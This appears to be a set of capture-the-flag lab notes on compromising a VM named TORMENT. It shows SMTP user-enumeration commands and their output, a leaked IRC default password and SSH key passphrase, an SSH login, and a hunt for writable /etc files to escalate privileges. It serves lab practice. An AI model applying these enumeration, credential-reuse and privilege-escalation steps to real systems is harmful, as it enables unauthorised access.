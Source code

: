     Mode ..................... VRFY
    Worker Processes ......... 5
    Usernames file ........... users.txt
    Target count ............. 1
    Username count ........... 16
    Target TCP port .......... 25
    Query timeout ............ 5 secs
    Target domain ............ 

    ######## Scan started at Fri Nov  5 14:38:09 2021 #########
    192.168.110.63: patrick exists
    192.168.110.63: root exists
    192.168.110.63: qiu exists
    ######## Scan completed at Fri Nov  5 14:38:09 2021 #########
    3 results.

    16 queries in 1 seconds (16.0 queries / sec)



smtp-user-enum -M VRFY -U users.txt -t 192.168.56.109
smtp-user-enum -M EXPN -U users.txt -t 192.168.56.109


HexChat > Networks > add > 192.168.110.21/6667 > Password default of ngircd is wealllikedebian (/etc/ngircd/ngircd.conf) >
 #tormentedprinter 
 
 ==>mostmachineshaveasupersecurekeyandalongpassphrase


https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/


    └─$ ssh patrick@192.168.110.21 -i id_rsa 
    Enter passphrase for key 'id_rsa': mostmachineshaveasupersecurekeyandalongpassphrase
    Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Fri Jan  4 19:34:43 2019 from 192.168.254.139
    patrick@TORMENT:~$ sudo -l
    Matching Defaults entries for patrick on TORMENT:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User patrick may run the following commands on TORMENT:
        (ALL) NOPASSWD: /bin/systemctl poweroff, /bin/systemctl halt, /bin/systemctl reboot



    patrick@TORMENT:~$ find /etc -writable 2>/dev/null
    /etc/systemd/system/samba-ad-dc.service
    /etc/apache2/apache2.conf

    cat /etc/apache2/apache2.conf
    ...
    User qiu 
    Group qiu 
    ...
